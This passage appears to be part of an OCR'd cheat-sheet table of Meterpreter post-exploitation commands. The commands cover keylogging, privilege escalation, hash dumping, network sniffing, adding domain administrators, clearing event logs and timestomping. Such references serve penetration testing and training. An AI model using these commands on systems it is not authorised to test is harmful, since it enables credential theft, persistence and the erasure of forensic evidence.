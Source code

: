| `keyscan_stop`                                        | Stop sniffing keystrokes on the remote target.               |
| `getprivs`                                            | Get as many privileges as possible on the target.            |
| `uictl enable <keyboard/mouse>`                       | Take control of the keyboard and/or mouse.                   |
| `background`                                          | Run your current Meterpreter shell in the background.        |
| `hashdump`                                            | Dump all hashes on the target. use sniffer Load the sniffer module. |
| `sniffer_interfaces`                                  | List the available interfaces on the target.                 |
| `sniffer_dump <interfaceID> pcapname`                 | Start sniffing on the remote target.                         |
| `sniffer_start <interfaceID> packet-buffer`           | Start sniffing with a specific range for a packet buffer.    |
| `sniffer_stats <interfaceID>`                         | Grab statistical information from the interface you are sniffing. |
| `sniffer_stop <interfaceID>`                          | Stop the sniffer.                                            |
| `add_user <username> <password> -h <ip>`              | Add a user on the remote target.                             |
| `add_group_user <"Domain Admins"> <username> -h <ip>` | Add a username to the Domain Administrators group on the remote target. |
| `clearev`                                             | Clear the event log on the target machine.                   |
| `timestomp`                                           | Change file attributes, such as creation date (antiforensics measure). |
| `reboot`                                              | Reboot the target machine.             |                     
---